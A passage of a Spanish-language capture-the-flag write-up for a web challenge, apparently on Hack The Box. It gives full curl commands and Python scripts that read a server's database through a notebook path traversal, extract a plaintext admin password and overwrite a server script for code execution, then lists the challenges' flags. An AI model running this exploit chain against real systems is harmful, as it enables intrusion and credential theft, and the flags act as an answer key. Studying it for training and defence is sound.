
conn.execute(
    "INSERT INTO users (username, password, role) VALUES (?, ?, ?)",
    ("admin", admin_password, "admin"),
)
```

1. La base de datos está en una ruta predecible: `data/app.db` relativa a la raíz del proyecto.
2. La contraseña del admin se genera aleatoriamente pero se almacena en texto plano, sin ningún hash.

Los notebooks se guardan en `data/jobs/<job_id>/incoming/`. La ruta relativa desde ahí hasta la DB es exactamente `../../../../data/app.db`.

#### 2.3 `FilesWriter` escribe rutas sin validar

En `services/conversions.py` hay una configuración oculta activable solo por el admin:

```python
def determine_storage_mode(output_format):
    if output_format == "markdown":
        return "saved_assets" if setting_enabled("asset_storage_enabled") else "single_file"
    return "single_file"
```

Cuando `asset_storage_enabled` está activo y el formato es Markdown, `convert_job.py` usa la clase `FilesWriter` de nbconvert, en la funcion `convert_markdown()`:

```python
writer = FilesWriter(build_directory=str(output_dir))
writer.write(body, resources, notebook_name=input_path.stem)
```

`FilesWriter` escribe los attachments del notebook en disco usando el nombre de clave del attachment como nombre de archivo, concatenándolo directamente con `build_directory` sin ninguna validación de path traversal. Si el nombre del attachment es `../../../../app/converter/convert_job.py`, el archivo se escribe fuera del directorio de exports y sobreescribe el script legítimo.

Ese script es ejecutado como subproceso en cada conversión:

```python
# services/conversions.py
subprocess.run([sys.executable, str(CONVERTER_SCRIPT), "--input", ..., "--output-dir", ...])
```

Esto convierte el path traversal en escritura en un Remote Code Execution, es decir, sobreescribir el script para que la próxima conversión ejecute el código del atacante.

Sin embargo, esta funcionalidad está desactivada por defecto (`asset_storage_enabled = 0`) y solo el admin puede activarla. Por eso el primer objetivo es robar la DB y obtener las credenciales de admin antes de intentar el file write.


### 3. Exploit

El exploit se divide en tres fases: Exfiltrar la base de datos usando el AFR descubierto, escalar a admin con las credenciales robadas, y finalmente convertir el path traversal de escritura en ejecución de código.

#### 3.1. Registro y login de usuario de prueba

```bash
TARGET="http://154.57.164.74:32480"

# Registro del usuario de ataque
curl -s -X POST "$TARGET/register" -c /tmp/user_cookies.txt \
  -d "username=$USER&password=$PASS&confirm_password=$PASS"

# Login — guarda la cookie de sesión en /tmp/c.txt
curl -s -X POST "$TARGET/" -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -d "username=$USER&password=$PASS" -L -o /dev/null
```


#### 3.2. Construir el notebook para robar la DB

El análisis de `convert_job.py` reveló que `embed_images = True` hace que nbconvert resuelva rutas de imagen en el sistema de archivos del servidor sin validación. La base de datos se ubica en `data/app.db` y los notebooks se guardan en `data/jobs/<job_id>/incoming/`, por lo que la ruta relativa para alcanzarla es exactamente `../../../../data/app.db`. Se construye el notebook mínimo que explota esa lectura:

```bash
cat > /tmp/steal.ipynb << 'NOTEBOOK'
{
  "cells": [
    {
      "cell_type": "markdown",
      "metadata": {},
      "source": [""]
    }
  ],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}
NOTEBOOK
```

#### 3.3 Subir el notebook y descargar el HTML con la DB embebida

Se sube el notebook al endpoint /convert que identificamos en el reconocimiento. El servidor responde con un 302 hacia `/jobs/<job_id>`, el mismo flujo observado con el notebook legítimo. La diferencia es que ahora nbconvert incrustará el contenido binario de la base de datos como un blob data:`...;base64,...` dentro del HTML generado:

```bash
# Subir el notebook malicioso
curl -s -X POST "$TARGET/convert" \
  -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -F "notebook=@/tmp/steal.ipynb" \
  -F "format=html" \
  -D /tmp/headers.txt -o /dev/null

# Extraer el job_id del header Location del redirect
JOB_ID=$(grep -i 'location:' /tmp/headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "job: $JOB_ID"

# Descargar el HTML con la DB embebida
curl -s "$TARGET/jobs/$JOB_ID/download" \
  -c /tmp/user_cookies.txt -b /tmp/user_cookies.txt \
  -o /tmp/db_out.html

echo "$(wc -c < /tmp/db_out.html) bytes -> /tmp/db_out.html"
```


#### 3.4. Extraer la contraseña del admin de la DB robada

El HTML de salida contiene múltiples blobs base64 correspondientes a recursos del tema de nbconvert (fuentes, íconos, CSS) además del archivo que nos interesa. Se itera sobre todos ellos buscando la firma SQLite al inicio del contenido decodificado. Una vez encontrado, se conecta directamente a la base de datos en memoria. El análisis del código ya había confirmado que `db.py` almacena la contraseña del admin en texto plano, así que la extracción es directa:

```python
# extract_creds.py
import re, base64, sqlite3

html = open('/tmp/db_out.html', 'rb').read().decode('utf-8', errors='replace')
matches = re.findall(r'data:[^;]*;base64,([A-Za-z0-9+/=]+)', html)

for m in matches:
    try:
        data = base64.b64decode(m)
    except Exception:
        continue

    if data[:6] == b'SQLite':
        open('/tmp/stolen.db', 'wb').write(data)
        conn = sqlite3.connect('/tmp/stolen.db')
        for row in conn.execute("SELECT username, password, role FROM users"):
            print(f"{row[0]}:{row[1]} ({row[2]})")
        conn.close()
        break
```


#### 3.5. Login como admin y activar `asset_storage_enabled`
Con las credenciales en mano se inicia sesión como admin. El reconocimiento mostró que `/admin` devuelve 403 a usuarios regulares; ahora ese panel es accesible. Se activa el setting `asset_storage_enabled`, la condición que el análisis de `services/conversions.py` identificó como prerequisito para que el conversor use `FilesWriter` en lugar del modo de archivo único, habilitando así la segunda vulnerabilidad de path traversal:

```bash
ADMIN_PASS="IGD40-eerRdFR5upjG0"

curl -s -X POST "$TARGET/" -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -d "username=admin&password=$ADMIN_PASS" -L -o /dev/null

curl -s -X POST "$TARGET/admin" -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -d "asset_storage_enabled=on" -o /dev/null
```


#### 3.6. Construir el notebook con el payload RCE

El análisis reveló que `FilesWriter` concatena la clave del attachment directamente con build_directory sin sanitizar separadores de ruta. La clave `../../../../app/converter/convert_job.py`, al resolverse desde el directorio de exports del job, apunta exactamente al script legítimo. El contenido del attachment reemplazará ese script.
El payload debe respetar el contrato de `conversions.py`: el script recibe `--output-dir` como argumento y debe imprimir `{"status": "ok", "output_path": "..."}` en stdout para que el job sea marcado como completado y el archivo quede disponible en `/download`:

```python
import json, base64

code = r"""import subprocess, json, argparse
from pathlib import Path

r = subprocess.run(['/readflag'], capture_output=True, text=True)
flag = r.stdout.strip()

parser = argparse.ArgumentParser()
parser.add_argument('--output-dir', required=False)
args, _ = parser.parse_known_args()

if args.output_dir:
    out = Path(args.output_dir) / 'flag.html'
    out.write_text(f'<html><body><h1>{flag}</h1></body></html>')
    print(json.dumps({"status": "ok", "output_path": str(out)}))
"""

nb = {
  "cells": [{
    "cell_type": "markdown",
    "metadata": {},
    "attachments": {
      "../../../../app/converter/convert_job.py": {
        "application/octet-stream": base64.b64encode(code.encode()).decode()
      }
    },
    "source": ["# x"]
  }],
  "metadata": {
    "kernelspec": {"display_name": "Python 3", "language": "python", "name": "python3"},
    "language_info": {"name": "python", "version": "3.11.0"}
  },
  "nbformat": 4,
  "nbformat_minor": 4
}

json.dump(nb, open('/tmp/pwn.ipynb', 'w'), indent=2)
print("[+] /tmp/pwn.ipynb")
```

#### 3.7. Subir `pwn.ipynb` para sobreescribir el script
Se sube con formato markdown, la condición exacta que activa el uso de `FilesWriter` según `determine_storage_mode()`. El job se completa y en ese momento `convert_job.py` en el servidor ya es el payload del atacante:

```bash
curl -s -X POST "$TARGET/convert" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -F "notebook=@/tmp/pwn.ipynb" \
  -F "format=markdown" \
  -D /tmp/pwn_headers.txt -o /dev/null

JOB_ID=$(grep -i 'location:' /tmp/pwn_headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "pwn job: $JOB_ID"
```

#### 3.8. Triggear el RCE enviando cualquier conversión

Con el script reemplazado, `conversions.py` invocará el payload la próxima vez que lance un subproceso. Se reutiliza `steal.ipynb`, aunque cualquier notebook sirve, ya que el código que se ejecuta ya no es el conversor legítimo sino el payload. El resultado descargable será el HTML con la flag:

```bash
curl -s -X POST "$TARGET/convert" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -F "notebook=@/tmp/steal.ipynb" \
  -F "format=html" \
  -D /tmp/rce_headers.txt -o /dev/null

JOB_ID=$(grep -i 'location:' /tmp/rce_headers.txt | grep -oP '/jobs/\K[0-9a-f]+')
echo "job: $JOB_ID"

curl -s "$TARGET/jobs/$JOB_ID/download" \
  -c /tmp/admin_cookies.txt -b /tmp/admin_cookies.txt \
  -o /tmp/flag_out.html
```

#### 3.9 Flag

```bash
grep -oP 'HTB\{[^}]+\}' /tmp/flag_out.html
```


### Vulnerabilidades

1. Path Traversal en embed_images (CWE-22 / CAPEC-126)

La primera vulnerabilidad es un caso clásico de CWE-22: Improper Limitation of a Pathname to a Restricted Directory. `convert_job.py` configura `nbconvert` con `embed_images = True` y pasa la ruta de imagen del notebook directamente al sistema de archivos sin ningún proceso de validacion de que la ruta resultante permanezca dentro de un directorio seguro. Un atacante puede incluir secuencias `../` para salir del directorio de trabajo y leer archivos arbitrarios del servidor.
El patrón de ataque corresponde a CAPEC-126: Path Traversal, que describe precisamente el abuso de separadores de directorio y secuencias de punto-punto para navegar fuera del árbol de archivos previsto. En este caso el impacto es la lectura completa de `data/app.db`, incluyendo credenciales de todos los usuarios.

2. Contraseña almacenada en texto plano (CWE-256)

`db.py` genera la contraseña del admin con secrets.`token_urlsafe(14)`, pero la persiste en la base de datos sin aplicar ninguna función de derivación de clave (bcrypt, argon2, PBKDF2). Esto encaja en CWE-256: Plaintext Storage of a Password: la fortaleza del secreto generado queda completamente anulada en cuanto un atacante obtiene acceso de lectura al almacén.
No existe un CAPEC directamente asociado porque esta debilidad no es una técnica de ataque, robar la base de datos no habría entregado credenciales utilizables. Con ella, la primera vulnerabilidad escala automáticamente a compromiso total de la cuenta admin.

3. Path Traversal en `FilesWriter` (CWE-22 y CWE-94 / CAPEC-17 y CAPEC-253)

La tercera vulnerabilidad combina dos debilidades. La primera sigue siendo CWE-22, ahora en la fase de escritura: `FilesWriter` concatena la clave del attachment con el `build_directory` del job sin validar si el path resultante sale del directorio de exports. La segunda es CWE-94: Improper Control of Generation of Code, porque el archivo sobreescrito `convert_job.py` es invocado por el servidor como subproceso en cada conversión posterior, convirtiendo la escritura arbitraria de archivos en ejecución de código arbitrario.
El primer patrón de ataque asociado es CAPEC-17: Using Malicious Files, que cubre la introducción de archivos con contenido malicioso que el sistema objetivo termina procesando o ejecutando. El segundo es CAPEC-253: Remote Code Inclusion, que describe la sustitución o inyección de código en rutas que la aplicación carga y ejecuta dinámicamente. Aquí ambos patrones se materializan juntos: el notebook actúa como el archivo malicioso portador del payload, y la ejecución vía subprocess.run en el siguiente job es la inclusión remota de ese código.

### Flag

```
FLAG: HTB{y3t_4n0th3r_pyth0n_c0nv3rt3r_cve}
```

# Tabla resumen de retos resueltos

| # | Categoría | Reto | Puntos | Resuelto por | Bandera |
|---|---|---|---|---|---|
| 1 | PWN | You know 0xDiablos | 20 | Pablo | `HTB{16b0ab4fc3cd8ba880c692bc5dd4eaf3}` |
| 2 | PWN | Execute | 20 | Pablo | `HTB{d14efc5f440239a02ef164bd27b4a5eb}` |
| 3 | Reversing | Rega's Town | 30 | Alonso | `HTB{Y0u_Ar3_Th3_K1ng_O7_The_Town}` |
| 4 | Reversing | Virtually Mad | 30 | Alonso | `HTB{0210010002100100031100010112110004130000}` |
| 5 | Reversing | Simple Encryptor | 10 | Pablo | `HTB{vRy_s1MplE_F1LE3nCryp0r}` |
| 6 | Web | NextPath | 30 | Pablo | `HTB{tr4v3r51ng_p45t_411_th3_ch3ck5...t4sk_w3ll_d0ne!}` |
| 7 | Web | Notebook Converter Pro | 20 | Alonso | `HTB{y3t_4n0th3r_pyth0n_c0nv3rt3r_cve}` |

**Total de puntos obtenidos: 160 pts**

---

# Timeline de resolución retos

| Fecha | Reto | Resuelto por | Puntos acumulados |
|---|---|---|---|
| DD/MM/AAAA | You know 0xDiablos | Pablo | 20 |
| DD/MM/AAAA | Rega's Town | Alonso | 50 |
| DD/MM/AAAA | Execute | Pablo | 70 |
| DD/MM/AAAA | Virtually Mad | Alonso | 100 |
| DD/MM/AAAA | Simple Encryptor | Pablo | 110 |
| DD/MM/AAAA | NextPath | Pablo | 140 |
| DD/MM/AAAA | Notebook Converter Pro | Alonso | 160 |

